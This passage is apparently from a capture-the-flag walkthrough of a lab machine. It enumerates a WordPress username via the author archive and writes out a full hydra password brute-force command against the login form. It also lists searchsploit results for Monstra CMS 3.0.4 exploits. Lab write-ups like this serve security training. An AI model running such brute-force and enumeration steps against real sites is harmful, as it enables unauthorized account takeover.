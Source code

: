 - https://medium.com/@ahmed_elhady/wordpress-username-enumeration-techniques-2ca0510df632

Visited URL with `?author=1` using the "author archives" feature. Led to page with header: `Author: wpadmin`. Time for hydra brute force:

```sh
❯ hydra -V -f -l wpadmin -P /usr/share/seclists/Passwords/2020-200_most_used_passwords.txt 10.10.10.88 http-post-form '/webservices/wp/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ftartarsauce.htb%2Fwebservices%2Fwp%2Fwp-admin%2F:ERROR'
```

----

While that's running, we'll circle back to the monstra page. Searchsploit for "monstra 3.0.4":

```sh
❯ searchsploit monstra 3.0.4
----------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                               |  Path
----------------------------------------------------------------------------- ---------------------------------
Monstra CMS 3.0.4 - (Authenticated) Arbitrary File Upload / Remote Code Exec | php/webapps/43348.txt
Monstra CMS 3.0.4 - Arbitrary Folder Deletion                                | php/webapps/44512.txt
Monstra CMS 3.0.4 - Authenticated Arbitrary File Upload                      | php/webapps/48479.txt
Monstra cms 3.0.4 - Persitent Cross-Site Scripting                           | php/webapps/44502.txt
Monstra CMS 3.0.4 - Remote Code Execution (Authenticated)                    | php/webapps/49949.py
Monstra CMS < 3.0.4 - Cross-Site Scripting (1)                               | php/webapps/44855.py
Monstra CMS < 3.0.4 - Cross-Site Scripting (2)                               | php/webapps/44646.txt
Monstra-Dev 3.0.4 - Cross-Site Request Forgery (Account Hijacking)           | php/webapps/45164.txt
----------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Looks promising. Browsing to the page:

![](img/web-monstra.png)
